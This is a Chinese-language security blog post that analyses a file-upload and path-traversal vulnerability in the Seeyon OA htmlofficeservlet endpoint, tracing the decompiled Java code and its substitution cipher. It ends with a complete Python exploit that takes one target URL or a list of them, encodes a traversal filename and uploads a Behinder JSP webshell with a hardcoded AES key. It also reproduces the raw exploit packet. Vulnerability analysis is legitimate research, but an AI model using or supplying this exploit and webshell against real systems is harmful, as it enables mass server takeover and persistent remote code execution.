 ### 前言

因为致远OA并不是一个开源的项目，所以源码分析的条件不太满足，找别的师傅要了俩主要漏洞成因的jar包和一个xml配置文件，就开始审计了...

### 漏洞分析

分析从web.xml文件入手，根据poc的路径/htmlofficeservlet来入手  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6c4e88d9aa5f6c0da8e540381d21d21f21f467dc.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6c4e88d9aa5f6c0da8e540381d21d21f21f467dc.png)  
htmlofficeservlet存在于seeyon-apps-common.jar中，直接来看代码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f4c1b1078d21fb95863c6ea57a44394af44ccf60.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f4c1b1078d21fb95863c6ea57a44394af44ccf60.png)  
主要看的就是框出来的部分

```java
HandWriteManager handWriteManager = (HandWriteManager)AppContext.getBean("handWriteManager"); //首先获取到名称也是handWriteManager的对象
iMsgServer2000 msgObj = new iMsgServer2000();  //实例化iMsgServer2000类
handWriteManager.readVariant(request, msgObj); //调用handWriteManager对象中的readVariant方法进行处理
```

跟进iMsgServer2000类可以发现该类主要起到加解密的作用  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ba9fcb4c352f82079e11754232cf4653b2f192e3.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ba9fcb4c352f82079e11754232cf4653b2f192e3.png)  
decodebase64方法中最重要的作用就是进行参数的解密，这里用到的其实相当于是变异凯撒密码的内容，对符号表的顺序进行了打乱替换再重新一一对应，这里对于文件名的参数加密可以直接调用该类中的加密方法，也可以用python进行转换，我的脚本是两者进行了结合，因为想到的全部由python来实现的方法出现了问题  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f4e2c1b0a253ecc92d51e41320bf2c4e497d95cf.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f4e2c1b0a253ecc92d51e41320bf2c4e497d95cf.png)  
先来看HandWriteManager类  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4419dfeee49993316dec7a4f00c1defd5ff4cb46.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4419dfeee49993316dec7a4f00c1defd5ff4cb46.png)  
类中声明了poc中涉及到的变量，直接来看后面调用的`readVariant`方法

```java
public void readVariant(HttpServletRequest request, iMsgServer2000 msgObj) {
    msgObj.ReadPackage(request);
    log.info("RECORDID:" + msgObj.GetMsgByName("RECORDID") + " CREATEDATE:" + msgObj.GetMsgByName("CREATEDATE") + " originalFileId:" + msgObj.GetMsgByName("originalFileId") + " needReadFile:" + msgObj.GetMsgByName("needReadFile"));
    this.fileId = Long.valueOf(msgObj.GetMsgByName("RECORDID"));
    this.createDate = Datetimes.parseDatetime(msgObj.GetMsgByName("CREATEDATE"));
    String _originalFileId = msgObj.GetMsgByName("originalFileId");
    this.needClone = _originalFileId != null && !"".equals(_originalFileId.trim());
    //originalFileId不等于null，去掉头尾空白字符后不等于空
    this.needReadFile = Boolean.parseBoolean(msgObj.GetMsgByName("needReadFile"));
    if (this.needClone) {
        String _originalCreateDate = msgObj.GetMsgByName("originalCreateDate");
        this.originalFileId = Long.valueOf(_originalFileId);
        this.originalCreateDate = Datetimes.parseDatetime(_originalCreateDate);
    }

}
//msgObj对象调用ReadPackage方法读取Request请求中的数据，下面调用GetMsgByName方法获取数据中对应参数名的数据并进行赋值，needClone的值需要为true，所以只需要对originalFileId赋值不为null
```

先来看`ReadPackage`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-e1c0d9cb75fbc7dfb794a2e942cadee35911887f.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-e1c0d9cb75fbc7dfb794a2e942cadee35911887f.png)  
因为没有本地搭建的环境，具体是怎么获取的数据，循环读取的数据没办法debug来进行调试  
接下去要看`this.FError`,如果该参数值为空，就能够调用本类中的`StreamToMsg`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8f8fd5cb7baeee5a5045a7a25f1637b1bac4fb51.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8f8fd5cb7baeee5a5045a7a25f1637b1bac4fb51.png)  
构造方法中进行了初始化，初始值为空，跟进StreamToMsg方法，发现就是获取了版本号等，对数据进行了处理，最重要的部分就是后面那一张图中的代码部分，获取到了poc中的文件内容部分，也就是我们的shell内容  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-17be7c189abb19f09484ca94fce4516e645f4db5.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-17be7c189abb19f09484ca94fce4516e645f4db5.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-7edac69cc4165814797ed5db40c8e038a2b859de.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-7edac69cc4165814797ed5db40c8e038a2b859de.png)  
下面回到一开始的doGet方法，按着逻辑往下，会获取到poc中的OPTION参数的值，先通过GetMsgByName进行解密，部分poc中的参数解密部分写在下面

```java
OPTION=SAVEASIMG
currentUserId=6993007969600000271
CREATEDATE=2019-05-20
RECORDID=-5505256504423462237
originalFileId=1
originalCreateDate=2019-05-20
needReadFile=false
originalCreateDate=1558275164836
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-860c273987de8c36a666a6a44b36a7bb0689d226.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-860c273987de8c36a666a6a44b36a7bb0689d226.png)  
解密之后的`OPTION`值为`SAVEASIMG`，所以会进入到最下面的else if分支中，这里会对文件名进行处理，再对文件的存储路径进行拼接，通过`日期+/taohongTemp`生成存储的临时路径，如果不存在就会创建对应的文件夹，之后通过调用`MsgFileSave`方法进行文件存储，`fileName`是通过`GetMsgByNam`e获取的poc部分，这里又对路径进行了拼接，所以可以通过文件名来实现目录跳跃，跟进`MsgFileSave`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-2214d3d0c84cb93e16bbb78a1b92c1c8290922c9.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-2214d3d0c84cb93e16bbb78a1b92c1c8290922c9.png)  
可以看到写入到文件中的内容恰巧就是前面`StreamToMsg`方法中的`FMsgFile byte`数组中存储的`poc`的`shell`部分  
再来看文件名加密前的部分，基本上上传路径都是`\Seeyon\某版本\upload`,再加上拼接的部分，为`\Seeyon\某版本\upload\taohongTemp`,要想shell能够解析就需要放到web站点的路径下面，而不是静态文件存储的路径，所以需要进行目录穿越，所以shell加密前的文件名基本为`..\\..\\..\\ApacheJetspeed\\webapps\\seeyon\\filename`的形式  
到这里再来看一下poc

```java
DBSTEP V3.0     355             0               600             DBSTEP=OKMLlKlV\r
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTda7u5aWs5qQhdVaxJeAJQBRl3dExQyYOdarNQeRWsdrzdarzQyaQvcQhdd1lHNYQ5qRjidg66
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
```

基本上都是固定的不需要进行修改,修改成符合条件的也是可以的，只需要修改FILENAME和加到最后的shell内容，还有355和600这两个数值就可以了，这两个数值根据返回包进行适当调整，作用就是从355字节位置开始再读取600个字节长度内容  
分析就到这里了，附上exp吧，用的是冰蝎马，有需要自行修改就行，还有个jar包，直接去[Github](https://github.com/ambitiousleader/some-automated-script "Github")拿吧

```python
import argparse
import base64
import subprocess
import requests

def Args():
    parser = argparse.ArgumentParser(formatter_class=argparse.ArgumentDefaultsHelpFormatter,description='''
seeyon htmlofficeservlet upload!!!
''')
    parser.add_argument('-u','--url',help="please input URL")
    parser.add_argument('-f','--file',help="please input URL file")
    parser.add_argument('-n','--name',help="please input shell name")
    args = parser.parse_args()
    if args.name is  None or args.url is None or args.name is None:
        print(parser.print_help())
        exit()
    else:
        return args

def encode(file_name):
    name = ''
    a = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
    b = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"
    popen = subprocess.Popen(['java','-jar','seeyon-1.0-SNAPSHOT.jar',file_name],stdout=subprocess.PIPE)
    result=popen.stdout.read()
    for i in result[:-2].decode():
        name += b[a.index(i)]
    return name

def attack(url,shellname,shelladdress):
    reaurl = url + "seeyon/htmlofficeservlet"
    length = str(473 + len(shellname))
    payload = """DBSTEP V3.0     385             0               """ + length + """             DBSTEP=OKMLlKlV\r
    OPTION=S3WYOSWLBSGr\r
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66\r
    CREATEDATE=wUghPB3szB3Xwg66\r
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6\r
    originalFileId=wV66\r
    originalCreateDate=wUghPB3szB3Xwg66\r
    FILENAME=""" + shellname + """\r
    needReadFile=yRWZdAS6\r
    originalCreateDate=wLSGP4oEzLKAz4=iz=66\r
    <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>6e4f045d4b8506bf492ada7e3390d7ce"""
    headers = {
        "Cache-Control": "max-age=0",
        "Content-Type": "application/x-www-form-urlencoded",
        "User - Agent": "Mozilla/5.0(Windows NT 10.0;Win64;x64) AppleWebKit/537.36(KHTML, likeGecko) Chrome/92.0.4515.159 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Connection": "close"
    }
    response = requests.post(url=reaurl, data=payload, headers=headers)
    response2 = requests.get(url=url + 'seeyon/'+shelladdress)
    if '6e' in response2.text:
        print(url + 'seeyon/'+shelladdress+' shell upload success!!!')
    else:
        print('fail')
def readfile(urlpath):
    list = []
    with open(urlpath,"r") as f:
        line = f.readlines()
    for i in line:
        if '/' == i.strip()[:-1]:
            i = i.strip()
        else:
            i = i.strip()+'/'
        list.append(i)
    return list
def main():
    args = Args()
    shellname = encode(args.name)
    if args.url is not None and args.file is None:
        if '/' == args.url[:-1]:
            args.url = args.url
        else:
            args.url = args.url + '/'
        attack(args.url,shellname,args.name)
    elif args.url is None and args.file is not None:
        urllist = readfile(args.file)
        for i in urllist:
            attack(i,shellname,args.name)
if __name__ =="__main__":
    main()
```

### 写在后面

还是分析过了源码之后理解的更加深刻一点，漏洞利用完还是得去分析一下造成漏洞的原因更好。